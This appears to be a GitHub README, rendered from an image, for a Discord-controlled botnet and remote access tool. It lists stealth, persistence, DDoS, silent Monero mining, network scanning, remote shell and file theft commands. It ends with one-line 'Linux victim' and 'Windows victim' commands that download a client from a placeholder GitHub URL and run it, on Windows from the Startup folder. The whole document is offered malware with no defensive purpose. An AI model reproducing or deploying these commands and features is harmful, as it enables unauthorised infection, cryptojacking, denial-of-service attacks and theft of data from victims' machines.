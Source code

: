 # Discord.py BotNet
![image](https://user-images.githubusercontent.com/104208624/203850203-55e89e04-0f26-4d3c-b87f-e9d8be7ef81f.png)

https://discord.gg/vCdPTjD6rZ

# Developers
me: batu.sh#9675

bnt: @udbnt

# Features
* Hidden (Works in /tmp, %temp%)
* Persistence (Copying to /boot, shell:startup)
* Tested on Windows and Linux platforms
* DDoS attack uses "storm" script
* Mining uses "xmrig"

# Soon
* Zmap entine network scan (bruteforce scanned ssh by: https://github.com/bntr00t/sshb)
* Webcam picture
* ?

# Bot Commands

* !sessions                              (List open sessions)
* !check                                 (Check miner & ddos status)
* !update                                (Update RAT)

* !ddos < IP >                             (Start DDoS Attack)
* !stopddos                              (Stop DDoS)

* !miner < WALLET >                        (Start slient XMR Crypto Miner CPU + AMD/INTEL GPU's)
* !stopminer                             (Stop miner)

* !zmap                                  (ZMap scan 90 ip addresses)
* !stopzmap                              (Stop ZMap)
* !zmapreport                            (ZMap report)

# Self Commands

* !info.< HOSTNAME >@< IP >                  (Send IP Information)
* !shell.< HOSTNAME >@< IP > < CMD >           (Run command)
* !download.< HOSTNAME > < IP > < URL > < NAME > (Download file to victim)
* !upload.< HOSTNAME >@< IP > < PATH >         (Upload file to bot)

# Linux victim
cd /boot; apt-get update -y; apt-get install curl -y; [ -f "Client" ] && rm Client; curl -O Client "https://raw.githubusercontent.com/NAME/NAME/main/NAME"; chmod 777 Client; ./Client

# Windows victim
cd "%AppData%\Microsoft\Windows\Start Menu\Programs\Startup" && if exist Client.exe del Client.exe && powershell -command Invoke-WebRequest https://github.com/NAME/NAME/raw/main/NAME.exe -OutFile Client.exe && Client.exe
